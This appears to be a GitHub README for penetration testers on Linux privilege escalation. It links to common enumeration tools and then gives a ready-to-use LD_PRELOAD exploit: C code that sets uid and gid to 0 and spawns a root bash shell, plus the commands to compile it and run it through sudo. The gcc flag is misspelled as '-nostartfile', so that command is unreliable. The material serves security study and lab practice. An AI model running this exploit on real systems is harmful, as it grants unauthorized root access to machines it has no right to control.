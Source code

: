 # Privilege-Escalation
Bypass security restrictions in misconfigured systems.
List of Tools and Repositories 👇🏻

## For Linux

**LinPeas** - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

**LinEnum** - https://github.com/rebootuser/LinEnum

**LES (Linux Exploit Suggester)** - https://github.com/mzet-/linux-exploit-suggester

**Linux Smart Enumeration** - https://github.com/diego-treitos/linux-smart-enumeration

**Linux Priv Checker** - https://github.com/linted/linuxprivchecker 

**GTFOBins** - https://gtfobins.github.io/

**Using *LD_Preload***
> This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
> Compile it using GCC into a Shared Object file(.so)
```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
> Run it by using LD_Preload option  
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
